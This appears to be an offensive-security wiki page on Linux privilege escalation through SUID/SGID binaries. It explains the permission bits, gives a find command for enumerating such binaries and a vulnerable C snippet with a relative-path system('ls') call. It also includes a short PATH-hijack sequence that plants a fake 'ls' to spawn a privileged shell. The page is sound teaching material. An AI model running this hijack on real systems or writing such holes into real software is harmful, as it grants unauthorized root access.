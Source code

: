 # SUID/SGID binaries

## Theory

On UNIX-like systems, binaries have permissions, just like any other file. Some of them often are over-privileged, sometimes allowing attackers to escalate their privileges on the system. The common permissions are **read**, **write**, **execute.** The extended ones are **setuid**, **setgid**, **sticky bit**, and so on.

The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the `s` or `S` permission in the file user or group owner permissions (i.e. `---s--s---`). When the file permissions features an uppercase `S` instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights.

{% hint style="warning" %}
**Limitations**

* Just like capabilities, setuid and setgid bits are unset when a file is copied with `cp`.
* Some partitions of the UNIX file system can be mounted with the `nosuid` option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like `/tmp `or`/run`. Searching the `/proc/mounts` pseudo-file for a `nosuid` flag can help find these partitions.
{% endhint %}

## Practice

All suid or sgid-enabled files the user can have access to can be listed with the following command.

```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
```

Vulnerable programs with these permissions are often targeted by attacker to obtain the user (for setuid) or group (for setgid) privileges. There are many techniques that attackers can use to hijack these binaries and obtain thet associated rights.

### Living of the land

Using standard binaries features to bypass security restrictions is called Living off the land.

{% content-ref url="living-off-the-land.md" %}
[living-off-the-land.md](living-off-the-land.md)
{% endcontent-ref %}

### Relative path calls

If a SUID/SGID binary makes calls to programs using relative paths instead of absolute paths, attackers can try to make the binary run a program controlled by the attacker. Let's take this vulnerable program as an example : 

{% code title="vuln.c" %}
```c
int function(int argc, char *argv[]){
/* ... */
    system("ls") // instead of system("/usr/bin/ls")
/* ... */
}
```
{% endcode %}

In the example above, the SUID/SGID binary calls the `ls` program using a relative path. An attacker can try to create a `ls` program somewhere he has write access to and edit the `PATH` environment variable so that his custom program is executed when running the SUID/SGID binary.

```bash
mkdir -p /tmp/attacker
cd /tmp/attacker && printf '#!/bin/sh\nexec /bin/sh\n' > /tmp/attacker/ls
chmod +x /tmp/attacker/ls 
PATH=/tmp/attacker:$PATH ./vuln
```

When the `vuln` program will be run, the malicious `ls` program will be called and a shell will be opened ! 

### Binary exploitation

In some cases, the binary that have SUID/SGID permissions can be reverse-engineered and attackers find ways to change the execution flow of that program to make it run something else (e.g. [buffer overflow](../../../binary-exploitation/buffer-overflow.md), [use-after-free](../../../binary-exploitation/use-after-free.md), ...).

## Resources

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/" %}
